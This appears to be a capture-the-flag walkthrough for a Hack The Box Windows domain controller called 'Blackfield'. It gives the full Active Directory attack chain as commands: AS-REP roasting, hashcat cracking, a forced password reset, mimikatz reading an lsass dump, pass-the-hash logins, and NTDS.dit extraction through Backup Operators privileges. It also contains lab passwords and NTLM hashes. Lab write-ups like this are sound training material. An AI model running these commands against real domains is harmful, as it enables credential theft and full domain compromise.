- Machine Name: Blackfield
- OS Type: Windows
- Difficulty: Hard

### Port Scanning - Service & Version Enumeration

```php
# Nmap 7.95 scan initiated Tue Apr 29 08:59:50 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.10.192
Nmap scan report for 10.10.10.192
Host is up, received echo-reply ttl 127 (0.28s latency).
Scanned at 2025-04-29 08:59:51 EDT for 499s
Not shown: 65527 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-04-29 20:06:51Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m39s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 48702/tcp): CLEAN (Timeout)
|   Check 2 (port 36102/tcp): CLEAN (Timeout)
|   Check 3 (port 53637/udp): CLEAN (Timeout)
|   Check 4 (port 65227/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-04-29T20:07:09
|_  start_date: N/A

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Apr 29 09:08:10 2025 -- 1 IP address (1 host up) scanned in 499.48 seconds

```

## Enumeration

### Port 445 - SMB

let’s start our enumeration by smb service, we’ll first check for anonymous login (also known as Null session)

```php
smbclient -L //10.10.10.192
```



oh nice we found some shares

```php
netexec smb 10.10.10.192 -u 'WORKGROUP\kali' -p '' --shares
```



this will check the share permissions as guest user, nothing here much!, let’s connect to profiles$ share

```php
smbclient  //10.10.10.192/profiles$ -N
```



looks like these are the usernames, let’s try enum4linux if we can get any useful information

```php
enum4linux 10.10.10.192
```



nothing interesting found

let’s continue our enumeration and filter usernames from the directory list i used below command to put all directory names inside a file called users

```php
smbclient  //10.10.10.192/profiles$ -N -c "ls" > users
```

cleaning the output and then pass the usernames to kerbrute to enumerate valid users

```php
kerbrute userenum --dc 10.10.10.192 -d blackfield.local users
```



let’s store these user’s in valid users’s list



get only usernames and remove domain name using cut command

```php
cat valid-users.txt | cut -d "@" -f 1
```



### Port 135/MSRPC

i tried to connect to ms-rpc using rpcclient

```php
rpcclient -U "" 10.10.10.192
```



let’s move to another port we’ll check for the ldap search

### Port 389,3268/LDAP

let’s start enumerating the Directory access protocol - LDAP

first we need DN (distinguished name) or base name for domain to search from

```php
ldapsearch -H ldap://10.10.10.192 -x -s base namingcontexts
```



we’ll use this as base to run our ldap query as we don’t have valid username and password we’ll try to enumerate anonymously

```php
ldapsearch -H ldap://10.10.10.192 -x -b "DC=BLACKFIELD,DC=local"
```



as per LDAP output we need to authenticate to run ldap queries means nothing for us here

let’s take some actions on information we’ve gathered so far, so i start from the AS-REP Roasting attack, now as we have the valid users let’s check if any user has *Dont_require_preauth* flag set, if this flag in any of user we can get the kerberos TGT hash for that user which encrypted using the user’s password and cracking the hash we can get the actual password of user

```php
impacket-GetNPUsers -no-pass -dc-ip 10.10.10.192 -usersfile users blackfield.local/
```



Bingo!, we have a hit i got the TGT hash for the support user let’s save it as `support.ha` and and crack it using hashcat

```php
hashcat -m 18200 support.hash /usr/share/wordlists/rockyou.txt
```



### You Said it Hashcat Cracked It!!

i always create two files when i found password for user, 1. creds - which contains valid set of creds and 2. password.txt - which contains password that we can use in password spraying and other tasks

let’s use this credentials to enumerate shares from the system

```php
netexec smb 10.10.10.192 -u support -p '#00^BlackKnight' --shares
```



i checked the NETLOGON share but didn’t find anything useful

let’s run the bloodhound-python to get information from domain and then visualize the output using bloodhound

run bloodhound -python to gather information

```php
bloodhound-python -c all -u 'support' -p '#00^BlackKnight' -d blackfield.local -ns 10.10.10.192
```



start neo4j database using

```php
sudo neo4j console
```



nice now load the json files in bloodhound search for support user and **right click > mark user as owned** 

check the node info of the user we found user has permissions to Change password for audit2020 as the user has `ForceChangePassword` permission



nice let’s use the rpcclient to login as support user and then change the password for audit2020

```php
rpcclient -U "blackfield.local/support" 10.10.10.192
```

after that we’ll use ***setuserinfo** to reset the password*

```php
rpcclient $> setuserinfo audit2020 23 "password@123"
```



Back to basics new creds enumeration start from 0, let’s check what share we have access as audit2020 user

```php
netexec smb 10.10.10.192 -u audit2020 -p "password@123" --shares
```



nice we have interesting share access `forensic` 

let’s connect to share using smbclient 

```php
smbclient //10.10.10.192/forensic -U "blackfield.local\audit2020%password@123"
```



let’s check the memory_analysis, i’ve downloaded the `commands_output`  all files, but we found the other usernames → lydericlefebvre, Ipwn3dYouCompany



we found interesting folder memory_analysis which contains the lsass.zip, download it and extract it we found the 



let’s load this into our local machine in mimikatz

```php
mimikatz # sekurlsa::minidump E:\Offsec-OSCP\lsass.dmp

mimikatz # sekurlsa::logonpasswords
```



let’s verify the hash is valid or not using netexec 

```php
netexec smb 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```



as we don’t have other shares to explore let’s try winrm to check if we have access or not

```php
netexec winrm 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```



### You said *Pwn3d!* i heard Access granted!

let’s login to winrm as svc_backup’s credentials

```php
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```



i found the interesting notes.txt in C:\



let’s check which groups our user belongs to

```php
net user svc_backup
```



then i checked the privileges of svc_backup user



putting pieces togather we can conclude that user is member of Backup operators and and has SeBackup and SeRestore Privilege

so the idea is we can dump SYSTEM and ntds.dit from DC and then use secretsdump to dump the hashes from the ntds.dit

i  found interesting powershell script on github that dump SAM,SYSTEM,SECURITY and NTDS.dit 

[https://github.com/G4sp4rCS/backup-operator-to-domain-admin-POC](https://github.com/G4sp4rCS/backup-operator-to-domain-admin-POC)

upload backupToDA.ps1 on target machine, set execution policy to bypass

```csharp
Set-ExecutionPolicy Bypass
```

or `powershell -ep bypass` 

then simply run the script



we need NTDS.dit and SYSTEM files, we need bootkey from system to decrypt the NTDS database

now download both files





great, now load the system and ntds.dit into secretsdump 

```csharp
impacket-secretsdump -system system -ntds ntds.dit LOCAL
```



i’ll use Administrator NTLM hash → 184fb5e5178480be64824d4cd53b99ee to login with evil-winrm

```csharp
evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
```

